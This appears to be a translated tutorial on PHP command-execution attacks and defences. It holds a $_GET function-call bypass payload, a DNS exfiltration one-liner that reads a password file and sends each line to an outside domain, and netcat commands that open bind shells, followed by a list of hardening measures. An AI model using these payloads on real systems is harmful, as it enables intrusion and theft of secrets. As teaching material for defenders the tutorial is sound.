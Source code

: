 ![Insert the image description here](https:
//img-blog.csdnimg.cn/20210528144414796.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
>The second way to bypass: use the variable `$_GET`, if I send such a request `?a=system&b=ls&code=$_GET[a]($_GET[b]);`, in code execution `$_GET[a]` and `$_GET[b]` will be replaced by `system` and `ls`, and finally bypass the security restrictions of quotes.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528144844834.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# DNSlog Outlet
Using domain name resolution request
- Suppose we have a controllable second-level domain name, then when the target issues a three-level domain name resolution, we can get its domain name resolution request, and we can cooperate with the DNS request to make the command execution judgment. This is generally called dnslog
- You can use the ping command to request through the dns or the curl command. Just access the domain name and let the domain name server resolve the domain name.
- Example: You can register an account at ceye.io. After registering, a domain name will be given. If there is a domain name resolution request, there will be a record; if the domain name is tested.ceye.io, when a host accesses 1111. test.ceye.io, the domain name resolution request will be recorded; 1111 can be replaced with the information we need to obtain; such as: `cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done`

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528092154214.png#pic_center)
Wireshark Catching

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528092217871.png#pic_center)
# rebound shell

```bash
nc -L -p 9090-e cmd.exe (Windows)

nc -l -p 9090-e /bin/bash (*nix)
```

# Preventive measures

>1. Disable high-risk system functions in PHP
Find php.ini, find disable_functions, add the disabled function name
>2. Try to include the value of the parameter in quotes, and call addslashes before splicing to escape
>3. Do not execute external applications or commands
Try to use custom functions or function libraries to implement the functions of external applications or commands. Before executing functions such as system, eval, etc., confirm the parameter contents
>4. Use escapeshellarg function to handle related parameters
The escapeshellarg function will escape the characters that cause the user to end the parameter or command. For example, single quotes "'" will be escaped as "\'", double quotes """ will be escaped as "\"", and semicolons";" will be escaped as "\;", so escapeshellarg will limit the content of the parameter content to a pair of single quotes or double quotes, and escape the single quotes or double quotes included in the parameter, making it impossible to truncate the current execution, achieving the purpose of preventing command injection attacks.
>5. Use safe_mode_exec_dir to specify the executable file path
Set safe_mode in the php.ini file to On, then put the allowed execution files into a directory, and use safe_mode_exec_dir to specify the executable file path; in this way, when the corresponding external program needs to be executed, the program must be allowed to execute in the directory specified by safe_mode_exec_dir, otherwise the execution will fail.